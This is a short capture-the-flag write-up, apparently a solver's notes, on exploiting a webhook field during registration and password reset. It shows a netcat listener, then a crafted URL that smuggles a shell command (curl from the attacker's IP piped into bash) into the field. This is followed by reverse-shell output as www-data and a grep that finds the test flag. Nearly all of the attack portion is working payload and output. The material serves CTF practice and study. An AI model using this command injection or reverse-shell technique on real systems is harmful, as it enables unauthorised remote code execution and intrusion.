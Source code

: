 ```bash
┌──(root㉿kali)-[~]
└─# nc -lvnp 1111
listening on [any] 1111 ...
```

Register with a crafted webhook then request password reset

```bash
https://webhook.site/b6ff89ca-8b60-4200-a9dc-9779b87d934f;curl${IFS}34.243.85.91|bash#
```

![](attachment/5f0220f1f4784ee2dd87566223e76d3f.png)

![](attachment/453f1c657e3a6615bb099ad7600afb86.png)

```bash
┌──(root㉿kali)-[~]
└─# nc -lvnp 1111
listening on [any] 1111 ...
connect to [34.243.85.91] from (UNKNOWN) [184.72.110.40] 55182
bash: cannot set terminal process group (131): Inappropriate ioctl for device
bash: no job control in this shell
www-data@b72917865ad1:/var/www/html/modules$ cd ..
cd ..
www-data@b72917865ad1:/var/www/html$ grep -rin flag
grep -rin flag
admin.php:19:        <h3>CACI{FAKE_FLAG_FOR_TESTING}</h3>
www-data@b72917865ad1:/var/www/html$
```
# Misc
